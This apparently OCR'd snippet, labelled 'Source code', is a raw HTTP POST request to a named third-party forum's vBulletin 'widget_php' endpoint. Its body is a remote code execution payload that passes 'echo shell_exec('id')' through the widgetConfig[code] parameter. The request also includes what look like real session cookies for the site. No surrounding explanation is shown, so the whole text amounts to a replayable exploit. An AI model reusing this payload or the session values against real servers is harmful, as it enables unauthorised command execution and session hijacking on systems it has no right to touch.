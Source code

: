 `POST /index.php?routestring=ajax/render/widget_php HTTP/1.1
Host: forum.webzen.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://forum.webzen.com/
Accept-Encoding: gzip, deflate
Accept-Language: ar,en-US;q=0.9,en;q=0.8,th;q=0.7,fr;q=0.6,ru;q=0.5
Cookie: vbwebzensessionhash=da9a25bcd0c2321558473f67a6e5a295; vbwebzenlastvisit=1569424662; vbwebzenlanguageid=1; PHPSESSID=ugtppbn8bt0i7kknpu57vjfsl5; vbwebzenuserstyleid=1; vbwebzenlastactivity=1569424665; _ga=GA1.2.1198144153.1569424664; _gid=GA1.2.1701724512.1569424664; __qca=P0-1005232971-1569424664125; vbwebzenlastactivity=1569426167; _dc_gtm_UA-50716969-1=1; CurrentCulture=pl-PL
Connection: close
Content-Length: 48


widgetConfig[code]=echo shell_exec('id');exit;`
